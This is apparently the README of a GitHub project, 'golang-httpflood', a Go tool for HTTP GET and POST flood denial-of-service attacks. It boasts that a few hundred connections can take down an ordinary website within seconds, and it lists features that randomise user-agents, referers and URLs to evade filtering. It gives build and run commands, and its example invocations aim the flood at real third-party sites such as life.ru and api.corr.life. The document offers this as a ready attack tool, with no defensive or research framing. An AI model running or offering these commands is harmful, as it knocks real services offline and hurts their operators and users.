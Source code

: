 # Golang-httpflood ![](https://img.shields.io/badge/Version-2.0-brightgreen.svg) ![](https://img.shields.io/badge/license-MIT-blue.svg)
Using Golang(net/socket) to httpflood

**Warning: Please use command "ulimit -n 999999" before use this in linux**

**1 Threads =  1 connection, 100~300 connections can down a normal website in 10s(specially apache server LOL)**
 
**This is golang and threads are just goroutines so you set more higher threads like 1000-5000 is fine.**

**Why can it run over 1000 threads(goroutines)? [Read this](http://tleyden.github.io/blog/2014/10/30/goroutines-vs-threads/)**

## INFO

 - [x] HTTP Get Flood
 - [x] HTTP Post Flood
 - [x] Random url(http get flood)
 - [x] Self edit header(You can use "nil" to use default header)
 - [x] Improved threading control
 - [x] More powerful flood
 - [x] Auto get ip form domain(golang inbuilt function)
 - [x] More format for random url(http get flood)
 - [x] Fixed for 386 systems
 -----------------------------------------------------
 Default header setting:
 - [x] Random user-agents
 - [x] Random data(http post flood) 
 - [x] Random Accpetall
 - [x] Random Referer(only for http get flood)


## Download
***Please download the F\*cking golang at first.***

Then:

    git clone https://github.com/Leeon123/golang-httpflood.git

Header.txt format:

    Accept: text/html
    User-agent: Wget
    Referer: http://google.com

Or anything else of http header. If you don't have any idea of this please just use "nil" for using default random header.
## Usage

    cd golang-httpflood
    go build httpflood.go
    ./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>

    ./httpflood  https://life.ru/ 5 get 30 nil
    ./httpflood  "https://api.corr.life/public/metrics/pageview/site?url=/p/1474721" 1 get 5 nil
    ./httpflood  "https://api.corr.life/public/metrics/pageview/site?url=/p/1475336" 1 get 5 nil
